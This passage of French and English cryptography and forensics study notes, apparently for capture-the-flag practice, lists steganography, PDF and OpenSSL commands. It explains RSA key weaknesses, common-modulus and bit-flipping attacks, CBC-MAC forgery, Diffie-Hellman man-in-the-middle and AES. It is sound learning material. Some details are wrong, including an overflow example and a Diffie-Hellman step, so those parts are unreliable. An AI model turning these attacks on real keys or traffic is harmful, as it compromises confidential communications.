<strong>vaut 0 donc CF est positionnée (ZF aussi dans ce cas la)</strong>
   </td>
  </tr>
  <tr>
   <td><strong>SF (sign flag)</strong>
   </td>
   <td><strong>Positionnée par une opération arithmétique dont le résultat est négatif ou une</strong>
<p>
<strong>comparaison dans le cas ou le 1er opérande est le plus grand (mais pas par un déplacement).</strong>
<p>
<strong>exemple : si on soustrait 2 registres de 8 bits, contenant 0x1F et 0x20, le résultat ( -1) vaut OxFF donc SF est positionnée.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>OF (overflow flag)</strong>
   </td>
   <td><strong>Indique qu’un calcul a débordé sur le bit de signe. exemple : si on ajoute</strong>
<p>
<strong>2 registres de 8 bits, contenant 0x7A et 0x21, le résultat vaut OxFF (donc -1) ; </strong>
<p>
<strong>OF est alors positionnée. (SF aussi). Si on considère que les nombres sont signées, OF indique bien un problème.</strong>
<p>
<strong>Si on les considère non signés, OF est inutile.</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* **EFLAGS ( or ps ) ( current state of the processor ) in x86:**

**general-purpose registers in x86  and  x86-64:**


<p id="gdcalert286" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image286.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert287">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert287" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image287.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert288">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


##                     MISC


* The x86 architecture has 8 General-Purpose Registers (GPR), 6 Segment Registers, 1 Flags Register and an Instruction Pointer. 64-bit x86 has additional registers.
* EAX, EBX, ECX, EDX, ESI, EDI = general-purpose registers.

            Rouge = Registres d’adresses.


            Il est à noter que rien n’interdit à un registre d’adresse de contenir une donnée (et vice-versa).

15. Stéganographie
* **Parfois , les premiers bits des images (LSB) sont utilisés pour stocker des données.**


##  				  Steganography tools


<table>
  <tr>
   <td><strong><a href="https://fotoforensics.com/">https://fotoforensics.com/</a></strong>
   </td>
   <td><strong>Website where you can submit a JPEG or PNG file for Forensic or stegano analysis.</strong>
   </td>
  </tr>
  <tr>
   <td><strong><a href="https://hexed.it/">https://hexed.it/</a></strong>
   </td>
   <td><strong>The powerful online hex analysis and editor.</strong>
   </td>
  </tr>
  <tr>
   <td><strong><a href="https://stylesuxx.github.io/steganography/">https://stylesuxx.github.io/steganography/</a></strong>
   </td>
   <td><strong>Try to find a hidden text message in an image.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>https://aperisolve.fr/</strong>
   </td>
   <td><strong>Very great site for image analysis</strong>
   </td>
  </tr>
  <tr>
   <td><strong>zsteg</strong>
   </td>
   <td><strong>Detect stegano-hidden data in PNG & BMP</strong>
<p>


<p id="gdcalert288" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image288.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert289">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


   </td>
  </tr>
  <tr>
   <td><strong>peepdf</strong>
   </td>
   <td><strong>Outil d'analyse de pdf (avec un mode interactif) Très utile pour tracer les liens des catalogues, stream, objects, ...</strong>
   </td>
  </tr>
  <tr>
   <td><strong>pdf-parser</strong>
   </td>
   <td><strong>Utile pour parser/analyser des fichiers PDF </strong>
   </td>
  </tr>
  <tr>
   <td><strong>pdf-parser --stats [PDF_FILE]</strong>
   </td>
   <td><strong>Voir si il y a des objet cachée dans le PDF</strong>
   </td>
  </tr>
  <tr>
   <td><strong>pdf-parser --object [NUMBER] --raw --filter [PDF_FILE] </strong>
   </td>
   <td><strong>extract object from PDF</strong>
   </td>
  </tr>
  <tr>
   <td><strong>zip -FF [ZIP_FILE] --out [ZIP_FILE]</strong>
   </td>
   <td><strong>check the file and fix it if needed</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


            **               **


## 
                      Some useful commands


<table>
  <tr>
   <td><strong>strings [OPTIONS] [FILENAME]</strong>
   </td>
   <td><strong>Prints the strings of printable characters in files ( by defaults,print character sequences that are at least 4 characters long ) .</strong>
<p>
<strong>If you want, you can change this limit using the -n command line option:</strong>
<p>
<strong>strings -n 2 test &lt;- 2 characters</strong>
   </td>
  </tr>
  <tr>
   <td><strong></strong>
<p>
<strong>strings -a test</strong>
   </td>
   <td><strong>reads the complete file (and not just loadable, initialized data sections), use the -a command line option.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>hexdump [FILENAME]</strong>
   </td>
   <td><strong>Allow you to print out the file in hex format.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>exiftool [IMAGE_NAME]</strong>
   </td>
   <td><strong>Print metadata of the image</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


16. Cryptographie


## 				  			 Cryptography tools


<table>
  <tr>
   <td><strong><a href="https://8gwifi.org/rsafunctions.jsp">https://8gwifi.org/rsafunctions.jsp</a></strong>
   </td>
   <td><strong>RSA Encryption / Decryption ( by providing Public/Private Key ) </strong>
   </td>
  </tr>
  <tr>
   <td><strong><a href="http://www.factordb.com/">http://www.factordb.com/</a></strong>
   </td>
   <td><strong>Try to Factorize number</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


                **   **


## 
                  Useful Commands


<table>
  <tr>
   <td><strong>openssl rsa -in pubkey.pem -pubin -text -modulus</strong>
   </td>
   <td><strong>extract Modulus ( in hexa ) and Exponent from the provided RSA public key.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>openssl rsautl -decrypt -in [FILE_WITH_CRYPTED_DATA] -out ./decrypt.txt -inkey private.pem</strong>
   </td>
   <td><strong>Decrypt with a RSA private key</strong>
   </td>
  </tr>
  <tr>
   <td><strong>python3 RsaCtfTool.py --createpub -n [NUMBER] -e [NUMBER]</strong>
   </td>
   <td><strong>Generate a public key from n et e ( with RsaCtfTool )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>python3 rsa-cm.py -c1 [MSG_CHIFFRE1] -c2 [MSG_CHIFFRE2] -k1 [KEY1_PUB] -k2 </strong>
<p>
<strong>[KEY2_PUB]</strong>
   </td>
   <td><strong>RSA common modulus attack avec rsa-cm.py</strong>
<p>
<strong>Sachant que les deux messages clairs sont les mêmes.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>openssl rsa -in [KEY_PUB] -pubin -text -noout</strong>
   </td>
   <td><strong>Afficher module exposant d’une clef publique</strong>
   </td>
  </tr>
  <tr>
   <td><strong>openssl rsautl -in [INPUT_FILE] -out [OUTPUT_FILE] -pubin -inkey [PUBKEY] -encrypt</strong>
   </td>
   <td><strong>Encrypt with public Key </strong>
   </td>
  </tr>
  <tr>
   <td><strong>openssl rsa -in mykey.pem -pubout > mykey.pub</strong>
   </td>
   <td><strong>extract public key from private key</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


## 
        Catégorisation d'algorithmes cryptographique


<table>
  <tr>
   <td><strong>Algorithme symétrique </strong>
   </td>
   <td><strong>AES, RC5, DES, Triple DES, Blowfish, Serpent, Twofish</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Algorithme asymétrique </strong>
   </td>
   <td><strong>RSA, DSA, El gamal</strong>
   </td>
  </tr>
</table>


<table>
  <tr>
   <td><strong>Chiffrement par Bloc ( M est traité par blocs de données )</strong>
   </td>
   <td><strong>DES, Triple DES, AES, RC6, RC5, IDEA, BLOWFISH, RSA</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Chiffrement par flot ( M est traité bit par bit )</strong>
   </td>
   <td><strong>RC4, Bluetooth E0/1, GSM A5/1</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Différent mode opératoire</strong>
   </td>
   <td><strong>ECB, CBC, GCM, CCM, CTR, XTS</strong>
   </td>
  </tr>
</table>


* **El gamal => basé sur le logarithme discret**


##          Taille de différents Hash :


<table>
  <tr>
   <td><strong>MD5</strong>
   </td>
   <td><strong>16 octets ( 32 caractères )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>SHA-1</strong>
   </td>
   <td><strong>20 octets ( 40 caractères )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>SHA-224</strong>
   </td>
   <td><strong>28 octets ( 56 caractères )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>SHA-256</strong>
   </td>
   <td><strong>32 octets ( 64 caractères )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>SHA-384</strong>
   </td>
   <td><strong>48 octets ( 96 caractères )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>SHA-512</strong>
   </td>
   <td><strong>64 octets ( 128 caractères )</strong>
   </td>
  </tr>
</table>


**En général, les condensats sont écrits en Hexa.**


* Man In The Middle 
    * **Cas normal ( sans attaque )**
        * **1 **- Alice** et Bob échangent leur clé publique. Charles peut les lire, il connaît donc _kapublic_ et _kbpublic_.**
        * **2 **- Si** Alice veut envoyer un **message à Bob,** elle chiffre ce message avec kbpublic. Bob le déchiffre avec_ kbprivate_.**
        * **3 **- Charles,** qui ne possède que_ kbpublic_, ne peut pas lire le message.**
    * **Attaque : Admettons maintenant que Charles soit en mesure de modifier les échanges entre Alice et Bob:**
        * **1 – Bob envoie sa clé publique à Alice. Charles l’intercepte et renvoie à Alice sa propre clé publique _kcpublic_ en se faisant passer pour Bob.**
        * **2 – Lorsque Alice veut envoyer un message à Bob, elle utilise donc, sans le savoir, la clé de Charles.**
        * **3 – Alice chiffre le message avec la clé publique **

                    **de Charles et l’envoie à celui qu’elle croit être Bob.**

        * **4 – Charles intercepte le message, le déchiffre avec sa clé privée _kcprivate_ et peut lire le message.**
        * **5 – Puis il chiffre de nouveau le message avec la clé publique de Bob _kbpublic_, après l’avoir éventuellement modifié.**
        * **6 – Bob déchiffre son message avec sa clé privée et ne se doute de rien puisque cela fonctionne.**

                **Ainsi, Alice et Bob sont chacun persuadés d’utiliser la clé de l’autre, alors qu’ils utilisent en réalité tous les deux la clé de Charles.**


                **Dans un cas réel , un attaquant peut être par exemple un routeur. **

* RSA :

### 
            Intro :

    * **The idea of RSA is based on the fact that it is difficult to factorize a large integer.		**

**				The public key consists of two numbers where one **


                **number is multiplication of two large prime numbers.**


                **And private **keys are** also derived from the same two prime** **numbers.**


                **So if somebody can factorize the large number (  multiplication of two large prime numbers ), the private **key is compromised**. **


    * **Encryption strength totally lies on the key size and if we double or triple the key size, the strength of encryption increases exponentially.**
    * **RSA keys can be typically 1024 or 2048 bits long ( That number is the number of bits in the modulus ), but experts believe that 1024 bit keys could be broken in the near future. But till now it seems to be an infeasible task.**
    * **Note : Deux nombres entiers sont premiers entre eux si leur PGCD (Plus Grand Commun Diviseur) vaut 1.**
    * Déroulement de l’algorithme :
        * **Alice choisit deux grands entiers naturels premiers p et q (d'environ 100 chiffres chacun ou plus) et fait leur produit n = p·q. Puis elle choisit un entier e tel que : **
            * **e premier avec (p-1)·(q-1).**
            * **e &lt; (p-1)(q-1).**
            * **e premier avec n.**
            * **e &lt; p et q.**

                **Enfin, elle publie dans un annuaire, par exemple**


                **sur le web, sa clef publique: (RSA, n, e).**


                    **n est appelé module de chiffrement.**


                    **e est appelé exposant de chiffrement.**


**				Chiffrement :**


* **Bob veut donc envoyer un message à Alice. Il cherche dans l'annuaire la clef de chiffrement qu'elle a publiée. **

                    **Il sait maintenant qu'il doit utiliser le système RSA avec les deux entiers n et e.**


                    **Il transforme en nombres son message en remplaçant par exemple chaque lettre par son rang dans l'alphabet.**


                    **Exemple :**


                    **"JEVOUSAIME" devient : "10 05 22 15 21 19 01 09 13 05".**


                    **Puis il découpe son message chiffré en blocs de même longueur représentant chacun un nombre plus petit que n.**


                    **Il faut construire des blocs assez longs (par exemple si on laissait des blocs de 2 dans notre exemple), on retomberait sur un simple chiffre de substitution que l'on pourrait attaquer par l'analyse des fréquences.**


                    **Imaginons dans notre exemple que son message devient : "010 052 215 211 901 091 305".**


                    **Un bloc B est chiffré par la formule C = B^e mod n, où C est un bloc du message chiffré que Bob enverra à Alice.**


                    **Après avoir chiffré chaque bloc, le message chiffré s'écrit : "0755 1324 2823 3550 3763 2237 2052".**


                **Déchiffrement :	**


**					Alice reçoit le message chiffré avec sa clef **


                **publique.**


* **Alice calcule à partir de p et q, qu'elle a gardé secret, la clef d de déchiffrage (c'est sa clef privée). Celle-ci doit satisfaire l'équation : **

                    **e·d mod ( (p-1)(q-1) ) = 1. **


                    **Ici, d=4279.**


                    **Chacun des blocs C du message chiffré sera déchiffré par la formule B = C^d mod n.**


                    **d est appelé module de déchiffrement.**

* **Elle retrouve : "010 052 215 211 901 091 305".**

                    **Ainsi, **en regroupant** les chiffres deux par deux et en remplaçant les nombres ainsi obtenus par les lettres correspondantes, elle retourne le message d’origine.**

* **RSA implementation may have vulnerabilities of its own even if the used keys are secur**e
    * Attacking RSA keys	
* **Modulus too small ( n )**

                    **If the RSA key is too short, the modulus can be factored by just using brute force. At least, 1024-bit keys are required.**


                    **( but may be possible for well equipped attackers to bruteforce this length of key ). **

* **Low private exponent ( d )**

                    **Decrypting a message consists of calculating C^d mod N. The smaller d is, the faster this operation goes. **


                    **However, _Wiener_ found a way to recover d when d is relatively small. **


                    **_Boneh_ and _Durfee_ improved this attack to recover private exponents that are less than N^0.292.**


                    **If the private exponent is small, the public exponent is necessarily large. **


                    **If you encounter a public key with a large public exponent, it may be worth it to run the Boneh-Durfee attack against it.**

* **Low public exponent ( e )**

                    **Having a low public exponent makes the system vulnerable to certain attacks if used incorrectly.**

* **p and q close together**

                    **Consider what happens when p ≈ q. Then N ≈ p^2 or p ≈ √N. In that case, N can be efficiently factored using Fermat’s factorization method.**

* **Unsafe primes**

                    **If at least one of the primes conforms to certain conditions there is a shortcut to factor the result.**


                    **In practice the chance is negligible that a prime you pick at random conforms to one of these formats.**


<p id="gdcalert289" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image289.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert290">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **Unsafe random generator values**

**					To create a random key, a good cryptographic **


                    **random number generator is required. Some generators are deficient.**


                    **For example, Devices that create their private key on first boot may not have enough entropy to create a random number. What sometimes happens is that this results in keys that have a different modulus but have one factor in common. **


                    **In that case the greatest common divisor of the two modulus can be efficiently calculated to factor the modulus and recover the private key.**


                    **In some cases, even if two keys don’t have the exact same factor but the factor is close, both keys can be broken.**


* **If you have :**
    * **The message m1 encrypted with a PubKey1**
    * **The message m1 encrypted with a PubKey2**
    * **PubKey1 and PubKey2 have the same modulus.**

                    **	**


                    **Then, you can recover the plain text m1 with the private key.**


**-------------------------------------------------------------------**


* **Faire attention au stockage des mots de passe de certains logiciels ( Navigateur , … ). Ils peuvent être retrouvés avec certains utilitaires employé par un attaquant.**
* **Le chiffre de Vigenère est un système de chiffrement par substitution polyalphabétique mais une même lettre du message clair peut, suivant sa position dans celui-ci, être remplacée par des lettres différentes, contrairement à un système de chiffrement mono alphabétique comme le chiffre de César.**
* Bit-flipping attack

            **A bit-flipping attack is an attack on a cryptographic cipher in which the attacker can change the ciphertext in such a way as to result in a predictable change of the plaintext, although the attacker is not able to learn the plaintext itself.**


            **The attack is especially dangerous when the attacker knows the format of the message.**


            **Example On CBC:**


<p id="gdcalert290" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image290.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert291">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


            **CBC chiffrement : XOR then ALGO**


            **CBC déchiffrement : ALGO then XOR**


        **It’s also dangerous when the attacker has access to the IV.**


* CBC-MAC :

    **CBC-MAC is a method to ensure integrity of a message by encrypting it using CBC mode and keeping the last encrypted block as "signature". **


    **This ensures that a malicious user can not modify any part of the data without having to change the signature. The key used for the "encryption" ensures that the signature can't be guessed.**


    

<p id="gdcalert291" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image291.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert292">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**			              CBC-MAC signature construction**

**	It’s recommended to choose an IV as NULL ( “00000000” ).**

**	**

<p id="gdcalert292" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image292.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert293">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**	Using CBC-MAC without some restrictions can break the security of the **

**implementation :**


        **Example with username of 2 block :**


        

<p id="gdcalert293" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image293.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert294">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert294" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image294.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert295">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


        

<p id="gdcalert295" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image295.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert296">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


        * Mode opératoire CTR :


<p id="gdcalert296" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image296.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert297">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Formule chiffrement : C[n] = Enc( key, NONCE||counter) ^ M[n] 
* Formule déchiffrement : M[n] = Enc( key, NONCE||counter) ^ C[n]
    * Enc = AES, …
    * NONCE => 64 bits et  counter => 64 bits pour des blocs de 128 bits
    * counter = 1,2,3 …..
    * à chaque nouveau chiffrement, la nonce doit être réinitialisé ( avec une autre valeur random )
* Mode opératoire ECB :


<p id="gdcalert297" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image297.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert298">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Diffie-Hellman


### 			intro :

**			l'échange de clés Diffie-Hellman, du nom de ses auteurs**


        **Whitfield Diffie et Martin Hellman, est une méthode, **


            **publiée en 1976, par laquelle deux personnes peuvent se mettre d'accord sur un nombre (qu'ils peuvent utiliser comme clé pour chiffrer la conversation suivante) sans qu'une troisième personne puisse découvrir le nombre, même en ayant écouté tous leurs échanges ( sans rien modifier ). **


            **Cette idée valut en 2015 aux deux auteurs le prix Turing.**


    

<p id="gdcalert298" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image298.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert299">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Fonctionnement de Diffie-Hellman :
1. **Alice et Bob ont choisi un nombre premier p fini et une base g plus petit strictement que p (nombre pouvant être connu de tous).**
2. **Alice choisit un nombre au hasard a et initie un autre nombre A =  g^a [modulo p]. Elle envoie A à Bob.**
3. **Bob choisit un nombre au hasard b et initie un autre nombre B =  g^b [modulo p]. Il envoie B à Bob. **
4. **Alice, en calculant B^a ( B reçu de Bob ), obtient g^ba [modulo p] = Secret.**
5. **Bob, en calculant A^b ( A reçu de Bob ), obtient g^ab [modulo p] = Secret.**
* **Il est difficile d'inverser l'exponentiation dans un corps fini (ou sur une courbe elliptique quand elle est utilisée), c’est-à-dire de calculer le logarithme discret: **
* **Dans la description ci-dessus, Alice et Bob travaillent dans le corps fini Z/pZ, ils échangeront les nombres modulo p. **

                **De manière générale, l'échange de clés Diffie-Hellman se généralise à un groupe fini cyclique quelconque (au lieu de se mettre d'accord sur un nombre premier p, ils se mettent d'accord sur un groupe fini). **


                **Ce groupe fini peut être un corps fini dont ils n'utilisent que la multiplication, ou une courbe elliptique.**


                **équation courbe elliptique : **

<p id="gdcalert299" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image299.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert300">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


                **( le 2eme x n’est pas au carré )**


### 				   DH avec courbe elliptique : 


<p id="gdcalert300" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image300.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert301">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert301" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image301.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert302">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **Dans E(a,b,K), K est un corps fini auquel appartient x et y.**
* **Transmission de message avec un algo. de chiffrement par courbe elliptique:**
    * **Alice veut envoyer à Bob un message.**
    * **Bob commence par fabriquer une clé publique de la façon suivante: il choisit une courbe elliptique E(a,b,K), un point P de la courbe, et un entier kB.**

        **Sa clé publique est constituée par la courbe elliptique E(a,b,K) et par les points P et kB*P de cette courbe elliptique.**


        **Sa clé privée est l'entier kB.**


<p id="gdcalert302" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image302.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert303">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


    * **Nous avons passé sous silence une difficulté majeure : si on veut s'échanger un texte, il faut pouvoir le transformer en une suite de points de la courbe elliptique. Ceci est loin d'être trivial, car il n'est pas toujours facile de trouver des points sur une courbe elliptique.**
    * **Comme les calculs sur les courbes elliptiques ne sont pas bien compliqués à réaliser, c'est un gros avantage pour les cartes à puces où on dispose de peu de puissance, et où la taille de la clé influe beaucoup sur les performances.**
    * **Ce qui fait la différence des algorithmes de chiffrement à base de courbes elliptiques par rapport aux algorithmes basés sur les entiers comme RSA ou El-Gamal est que, pour les vaincre, il faut résoudre le logarithme discret sur le groupe de la courbe elliptique, et non un problème analogue sur les entiers.**

        **C'est pourquoi on estime qu'une clé de 200 bits (qui mesure, pour une courbe elliptique, la taille du corps fini K de cette courbe) pour les chiffres basés sur les courbes elliptiques est plus sûre qu'une clé de 1024 bits pour le RSA.**

    * **Les inconvénients sont de deux ordres. D'une part, la théorie des fonctions elliptiques est complexe, et encore relativement récente. Il n'est pas exclu que des trappes permettent de contourner le problème du logarithme discret. **

        **D'autre part, la technologie de cryptographie par courbe elliptique a fait l'objet du dépôt de nombreux brevets à travers le monde. Cela peut rendre son utilisation très coûteuse !**


        

<p id="gdcalert303" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image303.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert304">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **Ce protocole ( DH ) est vulnérable à « l'[attaque de l'homme du milieu](https://fr.wikipedia.org/wiki/Attaque_de_l%27homme_du_milieu) » ( exemple sans C.Elliptique ): **
    * **Un attaquant peut se placer entre Alice et Bob, intercepter la clé g^a envoyée par Alice et envoyer à Bob une autre clé g^a', se faisant passer pour Alice. **
* **De même, il peut remplacer la clé g^b envoyée par Bob à Alice par une clé g^b', se faisant passer pour Bob.**
* **L'attaquant communique ainsi avec Alice en utilisant la clé partagée g^ab' et communique avec Bob en utilisant la clé partagée g^a'b, Alice et Bob croient communiquer directement.**

        **La parade classique à cette attaque consiste à signer les échanges de valeurs à l'aide d'une paire de clés asymétriques certifiées.**

* AES ( Advanced Encryption Standard )
* **AES is at least six times faster than triple DES. **

    **A replacement for DES was needed as its key size was too small. With increasing computing power, it was considered vulnerable against exhaustive key search attack. Triple DES was designed to overcome this drawback but it was found slow.**

* **Longueur des blocs : 128 bits en général( 16 bytes ) ou 64 bits**

    **longueur de la clé : 128/192/256-bit**


**The schematic of AES structure**


<p id="gdcalert304" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image304.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert305">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **Each round comprises four sub-processes. The first round process is depicted below :**


<p id="gdcalert305" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image305.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert306">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert306" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image306.gif). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert307">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **Byte Substitution (SubBytes)**

**The 16 input bytes are substituted by looking up a fixed table (S-box) given in**

**design. The result is in a matrix of four rows and four columns.**


* **Shiftrows**

**Each of the four rows of the matrix is shifted to the left. Any entries that ‘fall off’ are re-inserted on the right side of the row.**


* **MixColumns**

**Each column of four bytes is now transformed using a special mathematical function. This function takes as input the four bytes of one column and outputs four completely new bytes, which replace the original column. The result is another new matrix consisting of 16 new bytes. It should be noted that this step is not performed in the last round.**


* **Addroundkey**

**The 16 bytes of the matrix are now considered as 128 bits and are XORed to the 128 bits of the round key. If this is the last round then the output is the ciphertext. Otherwise, the resulting 128 bits are interpreted as 16 bytes and we begin another similar round.**


* **Les clés de l'AES font 128,192 ou 256 bits. Chacune correspondant à un nombre de répétition du chiffrement.**

    **Ces clés sont étendues ( key schedule ). D'autres clés sont créées à partir de la clé initiale ( pour chaque tours ). **Finalement,** c’est comme si “une grande clef” qui est utilisée.**


    **                      Extension d’une clef 128 bits**


<p id="gdcalert307" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image307.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert308">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


    **Avec Wi = la colonne i (4 octets) de la clef représentée par une matrice.**


* **g(): une fonction linéaire spéciale définie.**
* **Now, for AES256, the first two round keys are, in fact, 256 bits taken directly from the AES key. After that, it computed the next round key based on a simple function of the previous two round keys (plus a per round constant)**
* **The process of decryption of an AES ciphertext is similar to the encryption process in the reverse order. **
* **There are no known "efficient" attacks on full AES. This means that if you want to break the 10 rounds of AES-128, you will probably have to do a brute-force attack (or something close to that).**
* **If we use less than 10-round, it’s dangerous. **

**-----------------------------------------------------------------------**


* PKCS#5 and PKCS#7 padding :

    

<p id="gdcalert308" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image308.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert309">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


        **If the length of the original data is an integer multiple of the block size B, then an extra block of bytes with value B ( size of one block ) is added.**

* **The difference between the PKCS#5 and PKCS#7 padding mechanisms is the block size; PKCS#5 padding is defined for 8-byte block sizes, PKCS#7 padding would work for any block size from 1 to 255 bytes.**

**		So fundamentally PKCS#5 padding is a subset of PKCS#7 padding**


    **for 8 byte block sizes.**


* Perfect Forward Secrecy ( PFS ): 

        **La propriété de forward secrecy permet à une information chiffrée aujourd’hui de rester confidentielle en cas de compromission future de la clef privée d’un correspondant ( en utilisant l'aspect “Éphémère” dans TLS par exemple ).**


        **À noter que l'implémentation de cette propriété coûte une partie dans le temps de calcul.**


##               Hash length attack extension


<p id="gdcalert309" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image309.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert310">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


